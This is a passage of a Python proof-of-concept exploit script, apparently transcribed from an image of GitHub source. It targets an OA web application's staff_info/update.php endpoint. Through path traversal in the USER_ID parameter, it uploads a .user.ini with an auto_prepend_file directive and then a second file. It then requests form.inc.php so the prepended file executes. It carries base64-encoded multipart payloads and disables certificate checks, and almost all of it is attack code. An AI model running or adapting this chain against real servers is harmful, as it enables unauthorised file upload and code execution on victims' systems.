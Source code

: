 ```python
    data = base64.b64decode("LS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0xNzUxODMyMzk4NjU0ODk5Mjk1MTk4NDA1NzEwNApDb250ZW50LURpc3Bvc2l0aW9uOiBmb3JtLWRhdGE7IG5hbWU9IkFUVEFDSE1FTlQiOyBmaWxlbmFtZT0icGVpcWkuaW5pIgpDb250ZW50LVR5cGU6IHRleHQvcGxhaW4KCmF1dG9fcHJlcGVuZF9maWxlPXBlaXFpLmxvZwotLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLTE3NTE4MzIzOTg2NTQ4OTkyOTUxOTg0MDU3MTA0CkNvbnRlbnQtRGlzcG9zaXRpb246IGZvcm0tZGF0YTsgbmFtZT0ic3VibWl0IgoK5o+Q5LqkCi0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tMTc1MTgzMjM5ODY1NDg5OTI5NTE5ODQwNTcxMDQtLQ==")
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, data=data, headers=headers, verify=False, timeout=5)
        print("\033[36m[o] 正在请求 {}/general/hr/manage/staff_info/update.php?USER_ID=../../general/reportshop/workshop/report/attachment-remark/.user \033[0m".format(target_url))
        if "档案已保存" in response.text and response.status_code == 200:
            print("\033[32m[o] 目标 {} 成功上传.user.ini文件, \033[0m".format(target_url))
            POC_2(target_url, Cookie)
        else:
            print("\033[31m[x] 目标 {} 上传.user.ini文件失败\033[0m".format(target_url))
            sys.exit(0)

    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)

def POC_2(target_url, Cookie):
    vuln_url = target_url + "/general/hr/manage/staff_info/update.php?USER_ID=../../general/reportshop\workshop/report/attachment-remark/test"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8",
        "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
        "Accept-Encoding": "gzip, deflate",
        "Content-Type": "multipart/form-data; boundary=---------------------------17518323986548992951984057104",
        "Connection": "close",
        "Cookie":  Cookie,
        "Upgrade-Insecure-Requests": "1",
    }
    data = base64.b64decode("LS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0xNzUxODMyMzk4NjU0ODk5Mjk1MTk4NDA1NzEwNApDb250ZW50LURpc3Bvc2l0aW9uOiBmb3JtLWRhdGE7IG5hbWU9IkFUVEFDSE1FTlQiOyBmaWxlbmFtZT0icGVpcWkubG9nIgpDb250ZW50LVR5cGU6IHRleHQvcGxhaW4KClBlaVFpX1dpa2kKLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0xNzUxODMyMzk4NjU0ODk5Mjk1MTk4NDA1NzEwNApDb250ZW50LURpc3Bvc2l0aW9uOiBmb3JtLWRhdGE7IG5hbWU9InN1Ym1pdCIKCuaPkOS6pAotLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLTE3NTE4MzIzOTg2NTQ4OTkyOTUxOTg0MDU3MTA0LS0=")
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, data=data, headers=headers, verify=False, timeout=5)
        print("\033[36m[o] 正在请求 {}/general/hr/manage/staff_info/update.php?USER_ID=../../general/reportshop/workshop/report/attachment-remark/test \033[0m".format(target_url))
        if "档案已保存" in response.text and response.status_code == 200:
            print("\033[32m[o] 目标 {} 成功上传 test.log 文件, \033[0m".format(target_url))
            POC_3(target_url, Cookie)
        else:
            print("\033[31m[x] 目标 {} 上传 test.log 文件失败\033[0m".format(target_url))
            sys.exit(0)

    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)

def POC_3(target_url, Cookie):
    vuln_url = target_url + "/general/reportshop/workshop/report/attachment-remark/form.inc.php?test=test"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Cookie":  Cookie,
```